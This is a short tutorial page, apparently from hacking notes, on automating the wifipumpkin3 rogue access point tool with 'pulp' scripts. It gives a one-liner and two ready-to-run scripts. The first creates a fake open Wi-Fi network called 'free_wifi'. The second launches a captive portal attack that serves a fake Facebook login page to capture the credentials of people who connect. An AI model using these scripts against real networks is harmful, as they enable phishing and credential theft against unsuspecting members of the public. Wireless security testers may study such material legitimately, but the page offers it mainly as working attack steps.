


# Pulp scripts

At times as hackers we would like to make things **easier** for us and **faster** one way, we could do this not only with this tool but legitimate everything is to write a script that automates all the commands we would like to input into the program.

## Creating Pulp Scripts

To create one set the file extension _**". pulp"**_

<figure><figcaption></figcaption></figure>

* Once created, use the parameter pulp to pass the created file with the configurations we set in.&#x20;

<figure><figcaption></figcaption></figure>

### One-liner

* You can set configurations in just a line of commands.

```bash
wifipumpkin3 --xpulp "set interface wlan0; set ssid nisha; set proxy noproxy; start"
```

## Pulp scripts

### Create a fake AP

```bash
set interface wlan0
set ssid free_wifi
set proxy noproxy
ignore pydns_server
start
```

### Using captive portal attack

```bash
set interface wlan0
set ssid Free_wifi
use misc.extra_captiveflask
download
install facebook # simple as that
back
set proxy captiveflask
set captiveflask.force_redirect_to_url https://google.com
set captiveflask.facebook true
start
```
